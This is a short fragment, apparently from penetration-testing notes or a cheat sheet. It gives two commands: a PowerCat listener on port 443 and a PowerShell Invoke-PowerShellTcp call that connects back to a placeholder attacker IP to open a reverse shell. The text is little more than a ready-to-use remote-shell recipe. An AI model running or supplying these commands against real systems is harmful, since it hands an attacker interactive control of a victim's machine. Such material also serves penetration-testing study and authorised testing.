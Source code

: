 Setting up a reverse shell with PowerCat
`powercat -l -v -p 443 -t 100`

Trigger the reverse shell
`Invoke-PowerShellTcp -Reverse -IPAddress <attacker-ip> -Port <portnumber>`